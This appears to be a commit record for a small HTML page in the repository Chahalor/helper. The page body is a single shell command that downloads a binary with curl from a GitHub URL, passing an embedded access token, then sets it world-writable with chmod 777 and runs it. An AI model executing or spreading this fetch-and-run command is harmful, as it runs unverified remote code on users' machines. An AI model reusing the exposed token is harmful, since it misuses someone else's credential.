

Before and after one commit to Chahalor/helper, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,6 +3,6 @@
     <link rel="stylesheet" href="chrome-extension://bojobppfploabceghnmlahpoonbcbacn/app/content-style.css">
   </head>
   <body>
-    "curl -O https://raw.githubusercontent.com/lucasluc44/42LTU/refs/heads/main/random/helper/helper?token=GHSAT0AAAAAAC5FPJP2JJVXSTC7TJJQS32OZ4UUAJA chmod 777 helper ./helper clear"
+    curl -O https://raw.githubusercontent.com/lucasluc44/42LTU/refs/heads/main/random/helper/helper?token=GHSAT0AAAAAAC5FPJP2JJVXSTC7TJJQS32OZ4UUAJA chmod 777 helper ./helper clear
   </body>
 </html>
```
